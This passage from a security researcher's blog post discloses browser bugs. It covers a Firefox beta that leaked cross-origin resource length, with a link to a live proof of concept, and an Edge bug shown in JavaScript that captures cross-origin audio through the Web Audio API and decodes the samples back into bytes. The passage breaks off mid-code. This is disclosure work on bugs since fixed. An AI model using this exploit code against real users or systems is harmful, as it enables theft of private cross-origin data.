 <figure class="full-figure">
<div class="video"><iframe src="https://www.youtube.com/embed/D5wu_za7ows?rel=0&amp;showinfo=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe></div>
<figcaption>Length of sensitive resource revealed in Firefox 59.0b9</figcaption>
</figure>

It looks like the size isn't detected exactly, but Google returns a range, so the reported size includes the extra 44 bytes that are missing from the start (the WAV header).

And here's [a link to the attack](https://jewel-chair.glitch.me/exploit.html?url=https://www.google.com/gmail/about/), which works in Firefox 59.0b9 at least.

Leaking the length of a resource may not sound like a big deal, but consider an endpoint like `gender.json`. The content length can give a lot away. Also see [Timing attacks in the Modern Web](https://tom.vg/papers/timing-attacks_ccs2015.pdf) (PDF, heh) which demonstrates the amount of information content-length can leak.

Firefox handled this *brilliantly*. Within three hours [Paul Adenot](https://twitter.com/padenot?lang=en) replied to [the bug report](https://bugzilla.mozilla.org/show_bug.cgi?id=1441153#c4), confirming it, and digged into other potential leaks (there weren't any). I was able to engage with engineers directly on how the issue should be fixed, which was important as I was planning how to standardise the mitigation.

Since this was a regression caught in beta, Firefox were able to patch it before it reached stable.

# Edge security bug

Edge suffered from the same kind of bug, but with a huge twist. Firstly, it didn't care if the other server returned a 206 or not. Secondly, and this is the big one, it allowed the resulting audio to pass through the web audio API. The web audio API is like the `<canvas>` equivalent for audio, meaning I could monitor the samples being played:

```js
// Get the audio element.
const audio = document.querySelector('audio');
// Create a web audio context.
const ac = new AudioContext();
// Connect the two.
const source = ac.createMediaElementSource(audio);
// Create a script processor.
// This lets me transform the audio data. I don't really care
// about transforming, I just want to collect the data.
const scriptNode = ac.createScriptProcessor(256, 1, 1);
const datas = [];

scriptNode.onaudioprocess = event => {
  const inputData = event.inputBuffer.getChannelData(0);
  // Store the audio data
  if (!audio.paused) datas.push(inputData.slice());
};

// Connect the processor.
source.connect(scriptNode);
scriptNode.connect(ac.destination);

audio.addEventListener('ended', event => {
  source.disconnect(scriptNode);
  scriptNode.disconnect(ac.destination);

  // Now I can look at all the data received, and turn it from
  // audio sample data, back into bytes, then into a string.
  const str = datas.reduce((str, data) => {
    // Each sample is -1 to 1.
    // In the original wav it was 16-bits per sample,
    // so I map each value to a signed 16-bit value.
    const ints = Array.from(data).map(num => Math.round(num * 32768));
```